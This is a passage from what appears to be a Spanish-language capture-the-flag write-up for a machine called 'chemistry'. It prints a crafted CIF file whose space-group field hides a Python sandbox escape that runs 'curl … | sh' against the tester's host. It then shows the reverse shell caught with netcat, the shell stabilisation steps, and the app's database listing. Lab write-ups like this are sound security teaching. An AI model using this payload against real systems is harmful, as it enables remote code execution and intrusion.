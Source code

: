 ```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "uwu"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("curl http://10.10.16.38:8000/uwu | sh");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Al subirlo y dejar en escucha un netcat junto a un servidor HTTP en el puerto 8000 hospedando el archivo `uwu` con un comando para ejecutar una reverse shell, veremos que:

```bash
❯ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.38 - - [08/Mar/2025 08:36:58] "GET /uwu HTTP/1.1" 200 -
```

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.38 45410
bash: cannot set terminal process group (1078): Inappropriate ioctl for device
bash: no job control in this shell
app@chemistry:~$ script /dev/null -c bash # Inicia un nuevo proceso
script /dev/null -c bash
Script started, file is /dev/null
app@chemistry:~$ ^Z # CTRL + Z
[1]  + 6206 suspended  nc -lvnp 443

❯ stty raw -echo; fg
[1]  + 6206 continued  nc -lvnp 443
                                   reset xterm # Reiniciar terminal
app@chemistry:~$ export TERM=xterm-256color # Establecer tipo específico de terminal
app@chemistry:~$ stty rows 34 columns 149 # Establecer filas y columnas
app@chemistry:~$ source /etc/skel/.bashrc # ¡Colores!
```

### rosa - chemistry

En la carpeta `instance`, hay una base de datos. Es la que utiliza la aplicación:

```bash
app@chemistry:~/instance$ ls -la
total 28
drwx------ 2 app app  4096 Mar  8 12:37 .
drwxr-xr-x 9 app app  4096 Mar  8 02:39 ..
-rwx------ 1 app app 20480 Mar  8 12:37 database.db
-rw-r--r-- 1 app app     0 Mar  8 11:32 database.sb
app@chemistry:~/instance$ file database.db
database.db: SQLite 3.x database, last written using SQLite version 3031001
```
